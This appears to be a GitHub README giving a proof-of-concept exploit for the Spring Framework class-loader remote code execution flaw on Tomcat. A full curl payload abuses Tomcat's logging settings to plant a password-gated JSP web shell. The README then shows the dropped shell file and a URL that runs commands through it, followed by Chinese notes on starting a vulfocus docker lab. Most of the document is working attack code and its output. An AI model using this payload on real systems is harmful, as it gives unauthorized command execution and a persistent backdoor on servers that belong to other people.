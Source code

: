 ## spring-core-rce

## POC

```bash
curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://target:8080/path
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

shell: `target/tomcatwar.jsp?pwd=j&cmd=whoami`

ROOT.war 来自白帽汇的 vulfocus 镜像,直接放在 jdk9+ 的 tomcat 环境部署即可启动测试.

也可以自行使用 docker pull

```
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29
```

然后访问 本地的 8082 端口，显示 OK,即运行成功


本地测试写入的文件截图:

<img width="1318" alt="image" src="https://user-images.githubusercontent.com/18260135/160864865-b1a1e71f-d462-45cf-9fbb-f1f20250c206.png">

Reference：https://github.com/jbaines-r7/spring4shell_vulnapp 
